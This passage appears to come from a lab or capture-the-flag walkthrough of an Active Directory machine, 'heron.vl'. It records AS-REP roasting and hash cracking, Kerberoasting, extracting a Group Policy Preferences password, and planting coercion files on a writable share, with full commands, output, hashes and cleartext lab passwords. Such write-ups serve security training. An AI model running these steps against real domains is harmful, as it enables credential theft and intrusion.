|_clock-skew: mean: 1h23m59s, deviation: 3h07m49s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2022 Standard 20348 (Windows Server 2022 Standard 6.3)
|   Computer name: mucdc
|   NetBIOS computer name: MUCDC\x00
|   Domain name: heron.vl
|   Forest name: heron.vl
|   FQDN: mucdc.heron.vl
|_  System time: 2026-03-15T10:49:16-07:00
| smb2-time: 
|   date: 2026-03-15T17:49:16
|_  start_date: N/A
| nbstat: NetBIOS name: MUCDC, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:fe:01 (VMware)
| Names:
|   MUCDC<00>            Flags: <unique><active>
|   HERON<00>            Flags: <group><active>
|   HERON<1c>            Flags: <group><active>
|   MUCDC<20>            Flags: <unique><active>
|   HERON<1b>            Flags: <unique><active>
| Statistics:
|   00 50 56 94 fe 01 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46018/tcp): CLEAN (Timeout)
|   Check 2 (port 39532/tcp): CLEAN (Timeout)
|   Check 3 (port 60403/udp): CLEAN (Timeout)
|   Check 4 (port 18113/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE
HOP RTT      ADDRESS
1   26.74 ms 172.16.10.100

```

# HTTP

As show from the previous NMAP scan the server is hosting a custom website:


Now there is actually nothing special on this site, what is important here is to see that the AD is using "**name.surname**" to create it's usernames so this might be very interesting. A quick scan of the web directories even shows traces of ADCS:

```bash
Target: http://172.16.10.100/

[18:47:55] Starting: 
[18:47:56] 403 -  312B  - /%2e%2e//google.com
[18:47:56] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[18:47:56] 404 -    2KB - /.ashx
[18:47:56] 404 -    2KB - /.asmx
[18:48:02] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[18:48:03] 404 -    2KB - /admin%20/
[18:48:04] 404 -    2KB - /admin.
[18:48:09] 403 -    1KB - /aspnet_client/
[18:48:09] 404 -    2KB - /asset..
[18:48:09] 301 -  158B  - /aspnet_client  ->  http://172.16.10.100/aspnet_client/
[18:48:10] 403 -    1KB - /certenroll/
[18:48:10] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[18:48:10] 401 -    1KB - /certsrv/
[18:48:15] 400 -    3KB - /docpicker/internal_proxy/https/127.0.0.1:9043/ibm/console
[18:48:19] 404 -    2KB - /index.php.
[18:48:20] 404 -    2KB - /javax.faces.resource.../
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
[18:48:20] 400 -    3KB - /jolokia/exec/java.lang:type=Memory/gc
[18:48:20] 400 -    3KB - /jolokia/read/java.lang:type=*/HeapMemoryUsage
[18:48:20] 400 -    3KB - /jolokia/search/*:j2eeType=J2EEServer,*
[18:48:20] 400 -    3KB - /jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
[18:48:20] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
[18:48:20] 400 -    3KB - /jolokia/write/java.lang:type=Memory/Verbose/true
[18:48:21] 404 -    2KB - /login.wdm%2e
[18:48:27] 404 -    2KB - /rating_over.
[18:48:29] 404 -    2KB - /service.asmx
[18:48:31] 404 -    2KB - /static..
[18:48:33] 403 -    2KB - /Trace.axd
[18:48:34] 404 -    2KB - /umbraco/webservices/codeEditorSave.asmx
[18:48:35] 404 -    2KB - /WEB-INF./
[18:48:36] 404 -    2KB - /WebResource.axd?d=LER8t9aS

Task Completed

```

Now my first idea is to try to password spray those users with the password I got from the intial steps?



So far none of the first ones, but what about a bigger user list?



Next I am checking if those  service accounts are as-reproastable?  


Now I had to ask for a nudge but apparently I had to check those users I obained before:



And now I have my first user:

```bash
└─$ impacket-GetNPUsers -dc-ip 172.16.10.100 heron.vl/ -usersfile users.txt -format hashcat
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User svc-web-accounting doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-web-accounting-d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User julian.pratt doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$samuel.davies@HERON.VL:bcaf8955ebbe5554d8f718d7f4cd1608$44b6627c8645715dd18c52e63d7ea7be540b3453f778600c380180c05589d618f219370bac39f5545b45a1622850b4111feac399250c77d7578f594c4c1345a5f47decec4ce7088ed0ceb8cb148784eea883ed53880b27e26aad8bb59a19f993cc726ed01e4df478ca08a505906b8f823bb6840446ceede45bec781e37197421354a9dd24b7507460aee7bcafb2f44a106fc06dcdfc93d38e05fb47f73e0e15328a10b19f86023c7ec3800faefdbfee0b2eda8251a613a015b079a618f78cebec7a709a5cfb11c7e8967a9ec7d71393ebfb44d69c2a449e0b01e9f660f6623015f3da9f0
[-] User wayne.wood doesn't have UF_DONT_REQUIRE_PREAUTH set

```

And now I have my first set of credentials:

```bash
$krb5asrep$23$samuel.davies@HERON.VL:bcaf8955ebbe5554d8f718d7f4cd1608$44b6627c8645715dd18c52e63d7ea7be540b3453f778600c380180c05589d618f219370bac39f5545b45a1622850b4111feac399250c77d7578f594c4c1345a5f47decec4ce7088ed0ceb8cb148784eea883ed53880b27e26aad8bb59a19f993cc726ed01e4df478ca08a505906b8f823bb6840446ceede45bec781e37197421354a9dd24b7507460aee7bcafb2f44a106fc06dcdfc93d38e05fb47f73e0e15328a10b19f86023c7ec3800faefdbfee0b2eda8251a613a015b079a618f78cebec7a709a5cfb11c7e8967a9ec7d71393ebfb44d69c2a449e0b01e9f660f6623015f3da9f0:l6fkiy9oN
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$samuel.davies@HERON.VL:bcaf8955ebbe55...3da9f0
Time.Started.....: Sun Mar 15 19:29:53 2026 (0 secs)
Time.Estimated...: Sun Mar 15 19:29:53 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 50222.1 kH/s (6.27ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 786432/14344385 (5.48%)
Rejected.........: 0/786432 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> sonis
Hardware.Mon.#01.: Temp: 59c Util: 21% Core:1890MHz Mem:7000MHz Bus:8

Started: Sun Mar 15 19:29:46 2026
Stopped: Sun Mar 15 19:29:54 2026

```

# SMB

Now I can immediately see that there are several shares accessible from myself:

```bash
└─$ netexec smb mucdc.heron.vl -u 'samuel.davies' -p 'l6fkiy9oN' --shares
SMB         172.16.10.100   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.10.100   445    MUCDC            [+] heron.vl\samuel.davies:l6fkiy9oN 
SMB         172.16.10.100   445    MUCDC            [*] Enumerated shares
SMB         172.16.10.100   445    MUCDC            Share           Permissions     Remark
SMB         172.16.10.100   445    MUCDC            -----           -----------     ------
SMB         172.16.10.100   445    MUCDC            accounting$                     
SMB         172.16.10.100   445    MUCDC            ADMIN$                          Remote Admin
SMB         172.16.10.100   445    MUCDC            C$                              Default share
SMB         172.16.10.100   445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.10.100   445    MUCDC            home$           READ            
SMB         172.16.10.100   445    MUCDC            IPC$            READ            Remote IPC
SMB         172.16.10.100   445    MUCDC            it$                             
SMB         172.16.10.100   445    MUCDC            NETLOGON        READ            Logon server share 
SMB         172.16.10.100   445    MUCDC            SYSVOL          READ            Logon server share 
SMB         172.16.10.100   445    MUCDC            transfer$       READ,WRITE 
```

I can kerberoast another user that might be valuable for the Linux machine:

```bash
└─$ netexec ldap mucdc.heron.vl -u 'samuel.davies' -p 'l6fkiy9oN' --kerberoast kerberoasting.hash
LDAP        172.16.10.100   389    MUCDC            [*] Windows Server 2022 Build 20348 (name:MUCDC) (domain:heron.vl) (signing:None) (channel binding:Never) 
LDAP        172.16.10.100   389    MUCDC            [+] heron.vl\samuel.davies:l6fkiy9oN 
LDAP        172.16.10.100   389    MUCDC            [*] Skipping disabled account: krbtgt
LDAP        172.16.10.100   389    MUCDC            [*] Total of records returned 1
LDAP        172.16.10.100   389    MUCDC            [*] sAMAccountName: svc-web-accounting, memberOf: ['CN=audit,CN=Users,DC=heron,DC=vl', 'CN=SSH,CN=Users,DC=heron,DC=vl'], pwdLastSet: 2024-06-01 17:07:44.428061, lastLogon: 2025-06-25 16:13:59.559501
LDAP        172.16.10.100   389    MUCDC            $krb5tgs$23$*svc-web-accounting$HERON.VL$heron.vl\svc-web-accounting*$77b1ad0e287d2d9513e8e9f48c70c09b$e3ed8743f17d376270787ed70feafd8c0c25c0c1feb9e4743366aa71a74db2116cef57aa82aa8157090eaf58960c7b7528546a0562b70bcbe3d0bbfc9bac5530f6ea08738a8716393dd3c47f62a7705174c27322a23202d31e096a2fdafb86f4ce3bf4043515aa9f7a3777eb89f307132257e93253f8753bb2715f02d2beb0d027034777b6d172b868bcf8f48be7589b06e65dca07d63ef1e284c165436a6e0a5f6affe3a3164dd646a3c58ddaddef2a0b1e5af84c712a0d41f8f9c7107f1b6d629005896f6883a8e6ccf963e457529c5d4c1076168a5b8a839630d945e5e05f5164c93d17fdfed9de888641f320f9f25ab458fcb8e11349892265c0113acaaca9515ed776c898594e7e8f0151f750d55e8cdc34b505cf4190af546257676f935d66f5238ed857d6e8d8d4113c47ca45faa2402b70991c733b0d020e01aef07f86d237eccd27c68cd4d7820e06d629751dff328b1540830d9df05c6dd6cea8508ad195048d7b980c8150adbc15038eaccfa0c2566fb88a6f96d137f6f5a70dd03c926b75c1e11aa01bbecf2bc162a1fde09e46c0d0cc4d310a0c1e0476cf1f22afaeee8005e5fb7217b757a9ad7e27a40db53625dbcfd83045fda7e1afb8b607f39037d7eb592833425e7518d4cd4884a50380b1593094038458e147e1efe6e81db1856446bcd8173f11ce38d0c313383947f0c9cef6b655224918feac9b80856d5d8706dd40362af208a994a7734cf3e0e027b27f8f0e4d2bfd15ed338404970a6ce052b12ec08e79304a69c7f5ea0a023f3e56a03f100a9085cbaf570ccb2bcae374c85277f1f0469aa72a1b7e5bdf8a28e9f2456c31f26f6c775a9b2fc8565511bfd4d856b5afd29dd7aab94a225fcfb6f65a0f99e901061d5de66fd9d8dc79b66eba1f1bd51f0b15949d2370f0b74873b30c23e1af79e62a726a168cd94c10260c2d5e60dbc32ae668ce65e00e71f9e12b42a507be9400cbd90a8a1595ac6811b22d3be71aa2e87799ec40a35c979c6383f031dd0d65136f88268f3b2288dcecc2ea1ec548467489c79713644a8f3e3db3ebdef6a94171c98fade759ce2f26eb765caa0e6261078e809b89c42712b2a5a1bd8a25800eddea6bbd11a494e9906f748687948544524c5f14442db48ebd062905d15e46a5c3fb8345901ec077d10100fa9ed59ad2f4858779a513403cd839539d338da76a2765118cb37d94adc9bc1c2d57871cc568acdad14772cd155b91f28c2a77d6ca72e7997230f7194ae442479fbefd152297aebd084386d5922118c56a5392dd7c9f59b3809ffbb4c4919ce88014d0062ef36370c1a73cff5955ad7d0b6566bd7c44c01d00e5e3edc61ae1eafbd6e93c78474ceec0dddb776888fb2ea2d16376ce2b27b2016569bf996b78610d4d4fc7ff9dae100a06d6a7dcfd19784a4527d88a0aaac099ae8828b040d350f4f231d209ad266032322db5afae691377cdad82ed1adffd001b09e0589a951c4277c6e1a0bc90ff735f0ca03dfd1b643e2171df8cb8e3823e557d177a8c4dc2b25d4a7f3e46b9caebeea31188de10a915de6ad66123eff0bdc68ea3a518e1aa8494f96ee90ec4b175f514ff258c37d80d45b20f04ec7a060e80a71d7d3c6fb9aef17b92c3e9c6c262478bd175adcab1d9530e64fff995ce6e95e812288b7a7523d68f0d9c11da80ed6a738d0d175fe8a7918b3000975a02093b60cb4fa4dc1eba31b8eb9654118a93868314545b3c8d1798089cf6e456cb4bd1b3be9855226be6cf0a57fcf1dce30b0dcdadb99f1a9e960263e79f47c5724fddb3
                                                                         
```

But the password is not crackable so far..



From the list of users I can identify that Julian Pratt is the target to reach Linux as admin:

```bash
└─$ netexec smb mucdc.heron.vl -u 'samuel.davies' -p 'l6fkiy9oN' --users 
SMB         172.16.10.100   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.10.100   445    MUCDC            [+] heron.vl\samuel.davies:l6fkiy9oN 
SMB         172.16.10.100   445    MUCDC            -Username-                    -Last PW Set-       -BadPW- -Description-                                          
SMB         172.16.10.100   445    MUCDC            _admin                        2024-06-02 10:55:39 0       Built-in account for administering the computer/domain 
SMB         172.16.10.100   445    MUCDC            Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         172.16.10.100   445    MUCDC            krbtgt                        2024-05-26 09:38:19 0       Key Distribution Center Service Account 
SMB         172.16.10.100   445    MUCDC            Katherine.Howard              2024-05-26 11:47:11 0       T0 Windows Admin 
SMB         172.16.10.100   445    MUCDC            Rachael.Boyle                 2024-05-26 11:47:11 0        
SMB         172.16.10.100   445    MUCDC            Anthony.Goodwin               2024-05-26 11:47:11 0        
SMB         172.16.10.100   445    MUCDC            Carol.John                    2024-05-26 11:47:11 0        
SMB         172.16.10.100   445    MUCDC            Rosie.Evans                   2024-05-26 11:47:11 0        
SMB         172.16.10.100   445    MUCDC            Adam.Harper                   2024-05-26 11:47:11 0        
SMB         172.16.10.100   445    MUCDC            Adam.Matthews                 2024-05-26 11:47:11 0        
SMB         172.16.10.100   445    MUCDC            Steven.Thomas                 2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Amanda.Williams               2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Vanessa.Anderson              2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Jane.Richards                 2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Rhys.George                   2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Mohammed.Parry                2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Julian.Pratt                  2024-06-01 15:25:42 0       T1 Linux Admin 
SMB         172.16.10.100   445    MUCDC            Wayne.Wood                    2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Danielle.Harrison             2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Samuel.Davies                 2024-06-02 10:39:35 0       Leaves Company 06/24 
SMB         172.16.10.100   445    MUCDC            Alice.Hill                    2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Jayne.Johnson                 2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            Geraldine.Powell              2024-05-26 11:47:12 0        
SMB         172.16.10.100   445    MUCDC            adm_hoka                      2024-05-26 11:50:28 0       t0 
SMB         172.16.10.100   445    MUCDC            adm_prju                      2024-06-01 15:19:01 0       t1 
SMB         172.16.10.100   445    MUCDC            svc-web-accounting            2024-06-01 15:07:44 0        
SMB         172.16.10.100   445    MUCDC            svc-web-accounting-d          2024-06-02 20:00:59 0        
SMB         172.16.10.100   445    MUCDC            [*] Enumerated 27 local users: HERON

```

I the meantime, I will dump the AD image and check what can I see in Bloodhound?

And I will upload some malicious files under that **Transfers** samba share:

```bash
mb: \> ls
  .                                   D        0  Sun Mar 15 20:05:20 2026
  ..                                DHS        0  Tue Jun 24 10:25:13 2025
  Autorun.inf                         A       80  Sun Mar 15 20:05:19 2026
  backup-(externalcell).xlsx          A     5857  Sun Mar 15 20:05:20 2026
  backup-(frameset).docx              A    10224  Sun Mar 15 20:05:20 2026
  backup-(fulldocx).xml               A    72586  Sun Mar 15 20:05:19 2026
  backup-(icon).url                   A      109  Sun Mar 15 20:05:19 2026
  backup-(includepicture).docx        A    10217  Sun Mar 15 20:05:18 2026
  backup-(remotetemplate).docx        A    26284  Sun Mar 15 20:05:21 2026
  backup-(stylesheet).xml             A      164  Sun Mar 15 20:05:20 2026
  backup-(url).url                    A       57  Sun Mar 15 20:05:19 2026
  backup.application                  A     1651  Sun Mar 15 20:05:20 2026
  backup.asx                          A      148  Sun Mar 15 20:05:19 2026
  backup.htm                          A       80  Sun Mar 15 20:05:20 2026
  backup.jnlp                         A      193  Sun Mar 15 20:05:20 2026
  backup.lnk                          A     2164  Sun Mar 15 20:05:19 2026
  backup.m3u                          A       50  Sun Mar 15 20:05:19 2026
  backup.pdf                          A      771  Sun Mar 15 20:05:18 2026
  backup.rtf                          A      104  Sun Mar 15 20:05:19 2026
  backup.scf                          A       86  Sun Mar 15 20:05:20 2026
  backup.wax                          A       58  Sun Mar 15 20:05:19 2026
  desktop.ini                         A       48  Sun Mar 15 20:05:18 2026
  zoom-attack-instructions.txt        A      117  Sun Mar 15 20:05:20 2026

        6261499 blocks of size 4096. 1936441 blocks available
smb: \> 

```

But it did not catchback anything?  


Now here I had to check for another nudge and apparently I forgot to check this user password saved in a GPO:

```bash
└─$ netexec smb mucdc.heron.vl -u samuel.davies -p 'l6fkiy9oN' -M gpp_password 
SMB         172.16.10.100   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.10.100   445    MUCDC            [+] heron.vl\samuel.davies:l6fkiy9oN 
SMB         172.16.10.100   445    MUCDC            [*] Enumerated shares
SMB         172.16.10.100   445    MUCDC            Share           Permissions     Remark
SMB         172.16.10.100   445    MUCDC            -----           -----------     ------
SMB         172.16.10.100   445    MUCDC            accounting$                     
SMB         172.16.10.100   445    MUCDC            ADMIN$                          Remote Admin
SMB         172.16.10.100   445    MUCDC            C$                              Default share
SMB         172.16.10.100   445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.10.100   445    MUCDC            home$           READ            
SMB         172.16.10.100   445    MUCDC            IPC$            READ            Remote IPC
SMB         172.16.10.100   445    MUCDC            it$                             
SMB         172.16.10.100   445    MUCDC            NETLOGON        READ            Logon server share 
SMB         172.16.10.100   445    MUCDC            SYSVOL          READ            Logon server share 
SMB         172.16.10.100   445    MUCDC            transfer$       READ,WRITE      
GPP_PASS... 172.16.10.100   445    MUCDC            [+] Found SYSVOL share
GPP_PASS... 172.16.10.100   445    MUCDC            [*] Searching for potential XML files containing passwords
GPP_PASS... 172.16.10.100   445    MUCDC            [*] Found heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml
GPP_PASS... 172.16.10.100   445    MUCDC            [+] Found credentials in heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml
GPP_PASS... 172.16.10.100   445    MUCDC            Password: H3r0n2024#!
GPP_PASS... 172.16.10.100   445    MUCDC            action: U
GPP_PASS... 172.16.10.100   445    MUCDC            newName: _local
GPP_PASS... 172.16.10.100   445    MUCDC            fullName: 
GPP_PASS... 172.16.10.100   445    MUCDC            description: local administrator
GPP_PASS... 172.16.10.100   445    MUCDC            changeLogon: 0
GPP_PASS... 172.16.10.100   445    MUCDC            noChange: 0
GPP_PASS... 172.16.10.100   445    MUCDC            neverExpires: 1
GPP_PASS... 172.16.10.100   445    MUCDC            acctDisabled: 0
GPP_PASS... 172.16.10.100   445    MUCDC            subAuthority: RID_ADMIN
GPP_PASS... 172.16.10.100   445    MUCDC            userName: Administrator (built-in)

```

Now the user seems not working back on linux?



Can the password be used for another user?



Ok that was the account? But it seems still not working in Linux?



But now this asshole can read another share?



# Getting deeper into SMB

This new accounting share seems a placeholder for some kind of web application:

```bash
# use accounting$
# ls
drw-rw-rw-          0  Sun Mar 15 20:39:48 2026 .
drw-rw-rw-          0  Tue Jun 24 10:25:13 2025 ..
-rw-rw-rw-      37407  Fri Jun  7 08:13:32 2024 AccountingApp.deps.json
-rw-rw-rw-      89600  Fri Jun  7 08:13:32 2024 AccountingApp.dll
-rw-rw-rw-     140800  Fri Jun  7 08:13:32 2024 AccountingApp.exe
-rw-rw-rw-      39488  Fri Jun  7 08:13:32 2024 AccountingApp.pdb
-rw-rw-rw-        557  Fri Jun  7 08:13:32 2024 AccountingApp.runtimeconfig.json
-rw-rw-rw-        127  Fri Jun  7 08:13:32 2024 appsettings.Development.json
-rw-rw-rw-        237  Fri Jun  7 08:13:32 2024 appsettings.json
-rw-rw-rw-     106496  Fri Jun  7 08:13:32 2024 FinanceApp.db
-rw-rw-rw-      53920  Fri Jun  7 08:13:32 2024 Microsoft.AspNetCore.Authentication.Negotiate.dll
-rw-rw-rw-      52912  Fri Jun  7 08:13:32 2024 Microsoft.AspNetCore.Cryptography.Internal.dll
-rw-rw-rw-      23712  Fri Jun  7 08:13:32 2024 Microsoft.AspNetCore.Cryptography.KeyDerivation.dll
-rw-rw-rw-     108808  Fri Jun  7 08:13:32 2024 Microsoft.AspNetCore.Identity.EntityFrameworkCore.dll
-rw-rw-rw-     172992  Fri Jun  7 08:13:32 2024 Microsoft.Data.Sqlite.dll
-rw-rw-rw-      34848  Fri Jun  7 08:13:32 2024 Microsoft.EntityFrameworkCore.Abstractions.dll
-rw-rw-rw-    2533312  Fri Jun  7 08:13:32 2024 Microsoft.EntityFrameworkCore.dll
-rw-rw-rw-    1991616  Fri Jun  7 08:13:32 2024 Microsoft.EntityFrameworkCore.Relational.dll
-rw-rw-rw-     257456  Fri Jun  7 08:13:32 2024 Microsoft.EntityFrameworkCore.Sqlite.dll
-rw-rw-rw-      79624  Fri Jun  7 08:13:32 2024 Microsoft.Extensions.DependencyModel.dll
-rw-rw-rw-     177840  Fri Jun  7 08:13:32 2024 Microsoft.Extensions.Identity.Core.dll
-rw-rw-rw-      45232  Fri Jun  7 08:13:32 2024 Microsoft.Extensions.Identity.Stores.dll
-rw-rw-rw-      64776  Fri Jun  7 08:13:32 2024 Microsoft.Extensions.Options.dll
drw-rw-rw-          0  Sun Mar 15 04:14:23 2026 runtimes
-rw-rw-rw-       5120  Fri Jun  7 08:13:32 2024 SQLitePCLRaw.batteries_v2.dll
-rw-rw-rw-      50688  Fri Jun  7 08:13:32 2024 SQLitePCLRaw.core.dll
-rw-rw-rw-      35840  Fri Jun  7 08:13:32 2024 SQLitePCLRaw.provider.e_sqlite3.dll
